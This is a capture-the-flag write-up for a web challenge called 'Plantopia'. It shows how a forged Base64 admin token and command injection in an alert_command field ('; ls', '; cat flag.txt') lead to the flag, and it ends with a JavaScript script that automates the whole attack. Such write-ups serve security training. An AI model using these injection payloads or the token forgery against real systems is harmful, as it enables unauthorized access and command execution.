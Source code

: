 # Plantopia

**Description:**

<small>Author: @HuskyHacks</small><br><br>Plantopia is our brand new, cutting edge plant care management website! Built for hobbiests and professionals alike, it's your one stop shop for all plant care management. <br><br> Please perform a penetration test ahead of our site launch and let us know if you find anything.
<br><br> Username: <code>testuser</code>
<br> Password: <code>testpassword</code>
<br><br> <b>Press the <code>Start</code> button on the top-right to begin this challenge.</b>


**Category:** Web

**Difficulty:** medium

## Solution

Upon accessing the website, I encountered the login screen. Notably, I discovered a link to API documentation in the top-left corner, which directed me to a Swagger UI page.
![alt text](image.png)


By clicking the Authorize button, I learned how to create an API key. The API used a Bearer token derived from a Base64-encoded cookie in the format `username.isAdmin.expirationTime`.


An example provided was `admin.1.1695658567`. This suggested that the second item, isAdmin, could be manipulated.

Using the browser console, I created a token for testuser
```javaScript
const currentTime = Math.floor(Date.now() / 1000);
const expirationTime = currentTime + 3600;

const userString = `testuser.1.${expirationTime}`;
const base64Token = btoa(userString);
console.log(base64Token);
```

With the generated token, I utilized the Swagger UI to try out the admin log endpoint. The logs displayed detailed command execution history and user activity, indicating that the application might be running in debug mode.

I examined the `/api/admin/settings` endpoint, which had a request example 
```json
{
  "plant_id": 1,
  "alert_command": "/usr/sbin/sendmail -t",
  "watering_threshold": 50
}
```

Noticing that the command was restricted and must include `/usr/sbin/sendmail`, I attempted to inject a command by appending `; ls` to the command

```json
{
  "plant_id": 1,
  "alert_command": "/usr/sbin/sendmail; ls",
  "watering_threshold": 50
}
```

Next, I triggered the command via the `/api/admin/sendmail` endpoint, which executed the command. Upon checking the logs, I found an entry indicating a file named flag.txt
![alt text](image-1.png)




I modified the alert_command to read the flag
```json
{
  "plant_id": 1,
  "alert_command": "/usr/sbin/sendmail; cat flag.txt",
  "watering_threshold": 50
}
```

After executing the send mail command again, I checked the logs and successfully retrieved the flag
![alt text](image-2.png)
`flag{c29c4d53fc432f7caeb573a9f6eae6c6}`


To streamline the process, I scripted the entire sequence:
```javascript
async function executeFetchSequence() {
  const currentTime = Math.floor(Date.now() / 1000);
  const expirationTime = currentTime + 3600;

  //console.log(expirationTime);

  const userString = `testuser.1.${expirationTime}`;
  const base64Token = btoa(userString);
  const portNum = "32324"
  //console.log(base64Token);

  try {
    // First fetch to edit plant
    const editResponse = await fetch(`http://challenge.ctf.games:${portNum}/api/plants/1/edit`, {
      headers: {
        "accept": "application/json",
        "accept-language": "en-US,en;q=0.9",
        "authorization": base64Token,
        "cache-control": "no-cache",
        "content-type": "application/json",
        "pragma": "no-cache"
      },
      referrer: "http://challenge.ctf.games:${portNum}/swagger/",
      referrerPolicy: "strict-origin-when-cross-origin",
      body: JSON.stringify({
        description: "A beautiful sunflower.",
        sunlight_level: 80,
        watering_threshold: 50,
        alert_command: "/usr/sbin/sendmail -t; cat flag.txt"
      }),
      method: "POST",
      mode: "cors",
      credentials: "include"
    });
    console.log("Edit response:", editResponse.status);

    // Second fetch to send mail
    const sendMailResponse = await fetch(`http://challenge.ctf.games:${portNum}/api/admin/sendmail`, {
      headers: {
        "accept": "application/json",
        "accept-language": "en-US,en;q=0.9",
        "authorization": base64Token,
        "cache-control": "no-cache",
        "content-type": "application/json",
        "pragma": "no-cache"
      },
      referrer: "http://challenge.ctf.games:${portNum}/swagger/",
      referrerPolicy: "strict-origin-when-cross-origin",
      body: JSON.stringify({ plant_id: 1 }),
      method: "POST",
      mode: "cors",
      credentials: "include"
    });
    console.log("Send mail response:", sendMailResponse.status);

    // Third fetch to get logs
    const logsResponse = await fetch(`http://challenge.ctf.games:${portNum}/api/admin/logs`, {
      headers: {
        "accept": "application/json",
        "accept-language": "en-US,en;q=0.9",
        "authorization": "dGVzdHVzZXIuMS4xNzI5ODY0MTMz",
        "cache-control": "no-cache",
        "pragma": "no-cache"
      },
      referrer: "http://challenge.ctf.games:${portNum}/swagger/",
      referrerPolicy: "strict-origin-when-cross-origin",
      body: null,
      method: "GET",
      mode: "cors",
      credentials: "include"
    });

    if (!logsResponse.ok) {
      console.log('Error:', logsResponse.statusText);
      return;
    }

    const logData = await logsResponse.text();
    const flagMatch = logData.match(/flag\{[^\}]*\}/); // Regular expression to find `flag{...}`
    if (flagMatch) {
      console.log(flagMatch[0]); // Outputs `flag{...}`
    } else {
      console.log("Flag not found");
    }

  } catch (error) {
    console.error("Error in fetch sequence:", error);
  }
}

// Run the function
executeFetchSequence();

```